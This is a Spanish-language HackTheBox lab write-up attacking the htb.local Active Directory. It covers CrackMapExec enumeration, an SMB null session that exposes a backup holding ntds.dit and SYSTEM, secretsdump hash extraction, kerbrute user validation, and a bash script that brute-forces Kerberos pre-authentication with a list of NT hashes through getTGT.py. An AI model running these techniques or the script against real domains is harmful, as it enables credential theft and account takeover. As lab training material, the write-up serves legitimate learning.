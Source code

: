 Usamos [Crackmapexec](/Crackmapexec/) para enumerar información del [Active Directory](/Active-Directory/) y añadimos el dominio al /etc/hosts
> OS: Windows Server 2016
> Dominio: htb.local
> Signing: True
> SMBv1: True

## smbclient
Listamos servicios mediante un [null session](/SMB/
> backup/
> backup.zip

Dentro del archivo zip encontramos un **ntds.dit** y **SYSTEM**. Con [secretsdump.py](/secretsdump.py/) obtenemos las credenciales. Aunque el archivo nos pide contraseña, extraemos el hash, lo rompemos. Y pa' dentro.

Como nos extrae muchos hashes, los exportamos a un archivo para tratarlos.
> hashes

Extraemos un listado de usuarios.
> users

## kerbrute
Validamos los usuarios en [kerbrute](/Kerberos/).
> users

## Hash BruteForce
### pyKerbrute
Hacemos un ataque de fuerza bruta por [Kerberos](/Kerberos/), pero con un listado de hashes NT. Para esto utilizamos [pyKerbrute](/Kerberos/).


### krbBruteforcer.sh
O podemos crearnos nuestro propio script en **bash** jugando con la utilidad de **impacket** **getTGT.py**

```bash
#!/bin/bash

# getTGT.py -hashes 23098hr02hf902309dbn9832:23098hr02hf902309dbn9832 htb.local/henry.vinson

function ctrl_c(){
	echo -e "\n\n[!] Saliendo...\n"
	exit 1
}

for nt in $(cat nthashes); do
	output=$(getTGT.py -hashes $nt$:$nt htb.local/henry.vinson)
	
	if [ ! "$(echo $output | grep 'KDC_ERR_PREAUTH_FAILED')" ]; then
		echo -e "\n[+] Success: henry.vinson -> $nt\n"
		exit 0
	fi
done

# Ctrl+C
trap ctrl_c INT

```
